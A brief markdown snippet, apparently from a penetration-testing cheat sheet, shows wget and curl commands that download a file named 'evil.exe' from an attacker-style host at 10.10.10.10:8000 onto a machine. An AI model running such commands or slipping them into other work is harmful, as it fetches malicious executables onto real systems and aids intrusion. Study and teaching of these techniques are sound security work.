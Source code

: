 ## Wget
```bash
wget http://10.10.10.10:8000/evil.exe
```

## Curl
```bash
curl http://10.10.10.10:8000/evil.exe -o output.exe
```
